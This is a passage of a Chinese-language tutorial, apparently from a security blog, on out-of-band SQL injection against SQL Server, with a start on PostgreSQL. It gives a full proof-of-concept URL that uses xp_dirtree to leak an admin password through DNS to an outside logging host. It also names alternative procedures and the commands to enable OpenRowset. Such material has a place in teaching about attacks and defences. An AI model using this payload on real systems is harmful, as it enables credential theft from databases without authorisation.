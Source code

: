 [![img](http://s1.51cto.com/oss/201802/10/b54d0cafdb9c1fec4c0bac6f5bd7701a.png)](http://s1.51cto.com/oss/201802/10/b54d0cafdb9c1fec4c0bac6f5bd7701a.png)

再把二进制转换成字符类型的Hex编码

[![img](http://s3.51cto.com/oss/201802/10/beaa7753e2223b5f566d2192dbcc1e27.png)](http://s3.51cto.com/oss/201802/10/beaa7753e2223b5f566d2192dbcc1e27.png)

最后完整的POC就是出来了。

```
http://127.0.0.1/mssql.php?id=1; DECLARE @host varchar(1024);SELECT @host=(SELECT master.dbo.fn_varbintohexstr(convert(varbinary,rtrim(pass)))  FROM test.dbo.test_user where [USER] = 'admin')%2b'.cece.nk40ci.ceye.io'; EXEC('master..xp_dirtree "\'%2b@host%2b'\foobar$"'); 
```

结果如下：

[![img](http://s1.51cto.com/oss/201802/10/465a1e32470b3be60be542d53e2eb5f6.png)](http://s1.51cto.com/oss/201802/10/465a1e32470b3be60be542d53e2eb5f6.png)

那为什么网上给的那个POC就是能够获取到sa用户的hash之后的hex码的呢，原因如下:

![img](http://s3.51cto.com/oss/201802/10/d5a82c2bfddbd053c08fd9b3074605a4.jpeg)

因为那个hash字段本来就是二进制类型，所以不需要在经过类型转换了。

tips：此处有个小问题，因为拼接用到了+号，+号在url中如果不url编码到代码层的时候就成空格了，所以我们需要在提交之前对+号url编码下

(2) SQLServer中其他的一些可使用函数

```
master..xp_fileexist master..xp_subdirs 
```

这两个用法和前面的用法基本一样，不再赘述。

```
OpenRowset() OpenDatasource() 
```

这两个都是加载远程数据库的函数。

这个两个函数都需要高权限，而且系统是默认关闭的，需要通过sp_configure去配置高级选项开启功能，开启代码如下：

```
exec sp_configure 'show advanced options',1；  reconfigure；  exec sp_configure 'Ad Hoc Distributed Queries',1；  reconfigure； 
```

所以此处不推荐使用这两个函数，不仅权限要求高而且使用起来也太麻烦，前面三已经够用了。

**3. postgreSQL**

大多数的脚本语言对于PostgreSQL都是支持SQL语句多语句的执行的所以此处就非常方便了，我们可以编写一个自定义的函数和存储过程就好了，和SQLServer类似。1)copy函数的定义

```
COPY tablename [ ( column [, ...] ) ]  FROM { 'filename' | STDIN } [ WITH ] [ BINARY ] [ OIDS ] [ DELIMITER [ AS ] 'delimiter' 'null string' ] CSV [ QUOTE [ AS ] 'quote' 'escape' ]  [ FORCE NOT NULL column [, ...] ]  COPY tablename [ ( column [, ...] ) ] TO { 'filename' | STDOUT } [ WITH ] [ BINARY ] [ OIDS ] [ DELIMITER [ AS ] 'delimiter' 'null string' ]  CSV [ QUOTE [ AS ] 'quote' 'escape' ] [ FORCE QUOTEcolumn [, ...] ] 
```
